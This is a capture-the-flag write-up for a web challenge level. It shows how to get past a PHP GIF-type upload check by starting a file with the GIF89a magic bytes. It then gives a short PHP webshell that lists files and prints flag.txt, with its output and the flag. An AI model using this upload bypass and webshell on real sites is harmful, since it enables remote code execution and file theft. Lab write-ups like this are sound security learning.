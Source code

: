 ```yaml
---
layout: default
title: level08
---
```


Another `RCE` using webshell we uploading. This time, we pass this check: 
```php
if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) 
```
By just providing the magic `IMAGETYPE_GIF` which is `GIF89a`. 

Our webshell will show us the files in the folders, and then we'll read the flag.

```php
<?php 
    $dir = getcwd();  // Current working directory

    $files = scandir($dir);  // Get all files in the current directory
    echo "Files in directory: <br>";
    foreach ($files as $file) {
        echo $file . "<br>";
    }

    echo "Content of flag.txt is:\n".'<br>';
    echo file_get_contents('flag.txt')."<br>";
?>
```
```html
GIF Files in directory: 
<br>.
<br>..
<br>flag.txt
<br>index.php
<br>php-fpm.sock
<br>source.php
<br>uploads
<br>Content of flag.txt is:
<br>
WEBSEC{BypassingImageChecksToRCE}
<br>
```

You can easily upload this GIF (of course this isn't a valid GIF file...), [Fake Gif](./images/level08.gif)


**Flag:** ***`WEBSEC{BypassingImageChecksToRCE}`*** 
